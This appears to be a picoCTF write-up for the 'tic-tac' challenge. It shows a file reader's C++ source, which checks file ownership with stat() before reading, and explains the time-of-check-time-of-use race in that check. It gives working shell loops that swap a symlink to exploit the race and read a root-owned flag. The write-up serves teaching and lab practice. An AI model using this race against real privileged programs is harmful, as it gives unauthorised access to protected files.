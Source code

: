 # Writeup - tic-tac
Category: Binary Exploitation, Points: 200


## Descpriton

> Someone created a program to read text files; we think the program reads files with root privileges but apparently it only accepts to read files that are owned by the user running it.

We connect to the VM with `ssh`. Further details are given when the instance is launched.


## Vulnerability

After `ssh`ing into the VM. 

We can `ls` the current directory.

```
>ls
flag.txt  src.cpp  txtreader
```

We can see there is a `src.cpp` source file, a `flag.txt` file and a binary `./txtreader` file.

We can read `src.cpp` file.

```cpp
#include <iostream>
#include <fstream>
#include <unistd.h>
#include <sys/stat.h>

int main(int argc, char *argv[]) {
  if (argc != 2) {
    std::cerr << "Usage: " << argv[0] << " <filename>" << std::endl;
    return 1;
  }

  std::string filename = argv[1];
  std::ifstream file(filename);
  struct stat statbuf;

  // Check the file's status information.
  if (stat(filename.c_str(), &statbuf) == -1) {
    std::cerr << "Error: Could not retrieve file information" << std::endl;
    return 1;
  }

  // Check the file's owner.
  if (statbuf.st_uid != getuid()) {
    std::cerr << "Error: you don't own this file" << std::endl;
    return 1;
  }

  // Read the contents of the file.
  if (file.is_open()) {
    std::string line;
    while (getline(file, line)) {
      std::cout << line << std::endl;
    }
  } else {
    std::cerr << "Error: Could not open file" << std::endl;
    return 1;
  }

  return 0;
}
```

Now, the program is quite simple. It reads a file into the `file` pointer, and checks if the `file` is owned by the same person who created it. The `getuid` function returns your user-id, and the `statbuf.st_uid` returns the id of the `file` owner.

If you run:

```console
>./txtreader src.cpp
#include <iostream>
#include <fstream>
#include <unistd.h>
#include <sys/stat.h>

int main(int argc, char *argv[]) {
  if (argc != 2) {
    std::cerr << "Usage: " << argv[0] << " <filename>" << std::endl;
    return 1;
  }

  std::string filename = argv[1];
  std::ifstream file(filename);
  struct stat statbuf;

  // Check the file's status information.
  if (stat(filename.c_str(), &statbuf) == -1) {
    std::cerr << "Error: Could not retrieve file information" << std::endl;
    return 1;
  }

  // Check the file's owner.
  if (statbuf.st_uid != getuid()) {
    std::cerr << "Error: you don't own this file" << std::endl;
    return 1;
  }

  // Read the contents of the file.
  if (file.is_open()) {
    std::string line;
    while (getline(file, line)) {
      std::cout << line << std::endl;
    }
  } else {
    std::cerr << "Error: Could not open file" << std::endl;
    return 1;
  }

  return 0;
}
```

If we try to read the `flag.txt` file like this:

```console
$ ./txtreader flag.txt
Error: you don't own this file
```

It doesn't read it because we didn't create the `flag.txt` file. The `root` user has created it.

Now let's think of adding a `symlink`. If we create a `symlink` to `flag.txt`. It should trick the program into printing the contents of `flag.txt`, because we created the `symlink` hence we are the owners, and so it should pass the check.

```console
$ ln -sf flag.txt link  ##create the symlink
$ ./txtreader link
```

Unfortunately, this fails. The reason being the `stat` function resolves the `symlink` to it's orignal file `flag.txt`. Hence, on the `statbuf.st_uid` call, it gives the user-id for `root`.

If we see the challange tags, there is a tag called `toctou`. Google it and this results into a `time-of-check-time-of-use` attack. `toctou` attacks are caused by something called [Race Conditions](https://en.wikipedia.org/wiki/Race_condition). 

Race Conditions happen when two or more operations are running in parallel.

There is a Race Condition in the `src.cpp` file, caused by 2 instances. Firstly, it checks the ownership of the file. Secondly, it reads the file. We want to swap the file between when it checks ownership and when it reads.

```console
check_ownership(file) -- file is a dummy file owned by us

swap the file -- from the dummy file to flag.txt

read_file(file) -- read the flag.txt file!
```


## Exploit

First we create a dummy `random.txt` file.

Then, we can swap the `file` with a `symlink`. The basic idea is to keep swapping the `symlink` between `flag.txt` and our dummy file `random.txt`, for some amount of time in the background.

We can do this by:

```console
$ timeout 30s bash -c 'while true; do ln -sf random.txt flag; ln -sf flag.txt flag; done' &
```

The `timeout` command times-out after 30 seconds.

We then try to run `txtreader` multiple times so that we swap the file at the right time.

```console
$ while ! ./txtreader flag 2> /dev/null | grep "picoCTF"; do :; done
```

We should get the flag.


## References

[Link 1](https://brandon-t-elliott.github.io/tic-tac)
[Link 2](https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use)


